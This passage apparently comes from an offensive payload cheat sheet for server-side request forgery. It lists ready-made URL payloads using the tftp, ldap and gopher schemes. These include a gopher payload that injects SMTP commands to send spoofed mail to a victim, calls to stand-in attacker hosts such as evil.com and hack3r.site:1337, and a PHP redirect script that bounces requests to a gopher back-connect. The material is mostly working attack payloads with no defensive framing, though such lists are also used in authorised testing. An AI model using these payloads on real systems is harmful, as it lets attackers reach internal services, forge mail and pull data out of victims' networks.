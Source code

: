 Trivial File Transfer Protocol, works over UDP

```powershell
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
```

### LDAP

Lightweight Directory Access Protocol. It is an application protocol used over an IP network to manage and access the distributed directory information service.

```powershell
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```

### Gopher

```powershell
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a

will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AH

You didn't say the magic word !


.
QUIT
```

#### Gopher HTTP

```powershell
gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
```

#### Gopher SMTP - Back connect to 1337

```php
Content of evil.com/redirect.php:
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>

Now query it.
https://example.com/?q=http://evil.com/redirect.php.
```
